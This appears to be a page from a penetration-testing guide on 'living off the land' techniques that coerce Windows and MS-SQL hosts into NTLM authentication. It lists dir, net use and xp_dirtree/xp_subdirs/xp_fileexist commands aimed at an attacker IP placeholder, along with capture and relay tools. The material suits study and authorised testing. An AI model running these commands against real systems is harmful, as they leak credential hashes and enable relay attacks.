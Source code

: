 # Living off the land

## Theory

> In the physical world, “living off the land” simply means to survive only by the resources that you can harvest from the natural land. There may be multiple reasons for doing this — perhaps you want to get “off the grid,” or maybe you have something or someone to hide from. Or maybe you just like the challenge of being self-sufficient.
>
> In the technology world, “living off the land” (LotL) refers to attacker behavior that uses tools or features that already exist in the target environment. ([source](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/))

There are multiple "living off the land" techniques that can be used to force authentications, to capture hashes, or to relay authentications. In order to use those techniques, testers need to have an initial access to "the land", i.e. the tools or features the technique uses.

## Practice

Those techniques will usually generate outgoing traffic on SMB or HTTP, hence requiring the attacker to set up an SMB or HTTP server to [capture](../ntlm/capture.md) or [relay](../ntlm/relay.md) the authentication (e.g. using tools like [Responder](https://github.com/SpiderLabs/Responder) (Python), [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) or [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell)).

### Command execution

On Windows machines, cmdlets like `net` or `dir` can be used to make the machine access a remote resource, hence making it authenticate. This leads to an outgoing traffic using SMB.

```bash
dir \\$ATTACKER_IP\something
net use \\$ATTACKER_IP\something
```

The rpcping command can also be used to trigger an authentication. The perk of this technique is that the auth won't carry a signing negotiation flag, hence allowing for relays

### MS-SQL queries execution

On MS-SQL (Microsoft SQL) servers, the EXEC method can be used to access a remote SMB share. This leads to an outgoing traffic using SMB.

```bash
EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\something',1,1
xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'
```

### File explorer
